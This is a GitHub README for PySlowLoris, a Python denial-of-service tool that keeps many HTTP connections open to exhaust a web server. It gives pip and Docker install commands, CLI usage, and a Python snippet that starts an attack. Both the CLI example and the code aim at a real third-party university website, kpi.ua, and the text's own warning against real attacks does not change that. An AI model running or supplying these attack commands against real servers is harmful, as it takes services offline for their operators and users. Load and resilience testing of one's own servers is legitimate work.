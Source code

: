 # PySlowLoris
[![Gitter chat](https://badges.gitter.im/gitterHQ/gitter.png)](https://gitter.im/SlowLoris-dev/Lobby)
[![License](https://img.shields.io/badge/license-MIT%20license-orange.svg)](https://github.com/maxkrivich/SlowLoris/blob/master/LICENSE)
[![Python](https://img.shields.io/badge/python-2.7-blue.svg)](https://github.com/maxkrivich/SlowLoris)
[![Build Status](https://travis-ci.org/maxkrivich/SlowLoris.svg?branch=master)](https://travis-ci.org/maxkrivich/SlowLoris)
[![Coverage Status](https://coveralls.io/repos/github/maxkrivich/SlowLoris/badge.svg?branch=master)](https://coveralls.io/github/maxkrivich/SlowLoris?branch=master)
[![Requirements Status](https://requires.io/github/maxkrivich/SlowLoris/requirements.svg?branch=master)](https://requires.io/github/maxkrivich/SlowLoris/requirements/?branch=master)
[![Code Health](https://landscape.io/github/maxkrivich/SlowLoris/master/landscape.svg?style=flat)](https://landscape.io/github/maxkrivich/SlowLoris/master)

This repository was created for testing Slow Loris vulnerability on different web servers. SL based on keeping alive open connection as long as possible and sending some trash headers to the server. If you are interested what I'm trying doing here, please join my team and let's do fun together. Please DO NOT use this in the real attacks on the servers.

The main reason why I'm writing this module it is to create the easy tool for the fast check a small personal or corporate web server what based on Apache and etc. Also, last but not least reason is to improve my skills in this sphere.

More information you can find [here].

### Install module

##### PyPi
Installing module form PyPi:
```sh
$ pip install pyslowloris
```

##### Docker
Pulling from Docker hub:
```sh
$ docker pull maxkivich/pyslowloris
$ docker run --rm -it maxkivich/pyslowloris [-h] [-u URL] [-p PORT] [-s SOCKET_COUNT]
```

Build from Dockerfile:
```sh
$ docker build -t pyslowloris .
$ docker run --rm -it pyslowloris [-h] [-u URL] [-p PORT] [-s SOCKET_COUNT]
```

##### For contributors
```sh
$ git clone https://github.com/maxkrivich/SlowLoris.git
$ cd SlowLoris
$ vitualenv --python=[python version] venv
$ source venv/bin/active
$ pip install --editable .
```

### Usage
```sh
usage: slowloris [-h] [-u URL] [-s SOCKET_COUNT] [-p PORT]

Small and simple tool for testing Slow Loris vulnerability @maxkrivich

optional arguments:
  -h, --help            Show this help message and exit
  -u URL, --url URL     Link to the web server (http://google.com) - str
  -s SOCKET_COUNT, --socket-count SOCKET_COUNT Maximum count of created connection (default value
                        300) - int
  -p PORT, --port PORT  Port what will be used - int

```

##### Code example
Here are some example to start attack via Python
```py
import time
from PySlowLoris import TargetInfo, SlowLorisAttack

target = TargetInfo(url="http://kpi.ua/", port=80)
target.get_info()
slowloris = SlowLorisAttack(target)
slowloris.start_attack() # stop_attack()

while True:
    time.sleep(1)

```

##### Using module via CLI
The following command helps to use module via command line
```sh
$ slowloris -u http://kpi.ua/ -s 300
```


###### stop execution: Ctrl + C

If you find [bugs] or have [suggestions] about improving the module, don't hesitate to contact [me].

### License
Copyright (c) 2017 Maxim Krivich, [maxkrivich.github.io](https://maxkrivich.github.io/)

Licensed under the MIT License



[here]: <https://en.wikipedia.org/wiki/Slowloris_(computer_security)>
[bugs]: <https://github.com/maxkrivich/SlowLoris/issues>
[suggestions]: <https://github.com/maxkrivich/SlowLoris/issues>
[me]: <https://maxkrivich.github.io>
